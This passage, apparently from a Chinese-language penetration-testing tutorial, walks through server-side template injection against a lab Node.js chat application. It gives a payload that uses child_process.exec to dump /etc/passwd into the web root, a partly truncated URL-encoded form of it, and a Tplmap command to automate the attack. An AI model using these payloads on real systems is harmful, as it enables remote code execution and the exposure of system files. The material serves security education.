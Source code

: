 远程执行代码：

* 发送此最终 payload ，我们应该在 global.process.mainModule 中看到“require”函数。我们现在可以将其设置为使用.exec 导入‘child_process’以获取 RCE：
    *  - var x = global.process.mainModule.require
    *  - x('child_process').exec('cat / etc / passwd >>/opt/web/chatSupportSystems/public/accounts.txt')
    *  URL 编码：
%0a%2d%20%76%61%72%20%78%20%3d%20%67%6c%6f%6
* 在上面的例子中，我们像在 JavaScript 中一样定义变量“x”，但行开头的破折号表示无缓冲输出（隐藏）。我们正在使用全局对象和我们最终需要的模块‘require’，这允许我们使用‘child_process’.exec 来运行系统命令。
* 我们将 /etc/passwd 的内容输出到 Web 公共根目录，这是我们唯一具有写入权限的目录（由应用程序创建者设计），允许用户查看内容。我们也可以使用系统命令执行反向shell或其他任何允许的操作。
* 我们可以看到 http://chat:3000/accounts.txt 将包含的内容
* 来自 Web 服务器的 /etc/passwd。
* 使用此命令在系统上执行完整的 RCE 并返回 shell。

 ![](../images/chapter_3/3-32.png)

现在，我们可以对这一系列操作实现自动化吗？当然可以。有一个类似 SQLmap 的名为 [Tplmap](https://github.com/epinna/tplmap) 的工具，它可以尝试模板注入的所有不同组合：
* cd /opt/tplmap
* ./tplmap.py -u "http://chat:3000/ti?user=*&comment=asdfasdf&link="

 ![](../images/chapter_3/3-33.png)

参考：

* http://blog.portswigger.net/2015/08/server-side-template-injection.html 
* https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/
 
